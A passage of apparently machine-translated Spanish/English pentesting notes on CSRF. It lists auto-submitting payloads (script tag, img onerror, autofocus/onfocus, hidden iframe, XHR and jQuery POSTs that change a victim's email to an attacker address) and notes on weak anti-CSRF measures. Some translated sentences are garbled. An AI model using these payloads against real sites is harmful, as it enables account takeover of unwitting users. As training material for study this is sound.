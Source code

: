 ```js
<script>document.getElementById("CSRForm").submit()</script>
```

Podemos utilizar manejadores de eventos como **onload** y **onerror** porque no requieren interacción del usuario:

```js
<img src=x onerror="CSRForm.submit();">
```

en HTML5 podemos utilizar **autofocus** y el manejador de eventos relacionado **onfocus**:

```js
<input name="new" value="evil@hacker.site" autofocus onfocus="CSRForm.submit()">
```

### How to perform POST requests silently

```js
<iframe style="display:none" name="CSRFrame"></iframe>

# in the form we add target="CSRFrame" 
# display the response received submitting the form in the iframe
```

Puede forjado usando XMLHttpReques(**XHR**) también:

```js
var url="URL";
var params = "old=mycoolemail@victim.site&new=eviL@hacker.site";
var CSRF = new XMLHttpRequest();
CSRF.open("POST", url, false);
CSRF.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
CSRF.send(params)
```

También se puede hacer usando bibliotecas JavaScript como JQuery:

```js
$.ajax({ type: "POST", url: "URL", data: "old=mycoolemail@victim.site&new=eviL@hacker.site",});
```

## Exploiting Weak Anti-CSRF Measures

### Using POST-only Requests

* Obtén solicitudes en caché, marcado con marcado, etc. No debe ser utilizado Para operaciones que hacen que un estado cambie. Estos pueden incluir funcionalidades como operaciones de base de datos, archivos de escritura, etc.
* Solicitudes de POST Para información sensible es mejor práctica y protege contra una clase conocida de vectores de ataque CSRF.

### Multi-Step Transactions

* Mientras seamos capaces de predecir o deducir los pasos necesarios para completar una tarea, entonces la CSRF es posible.
* Si la aplicación implementa transacciones multi=step, estos no son en modo alguno un mecanismo de protección.
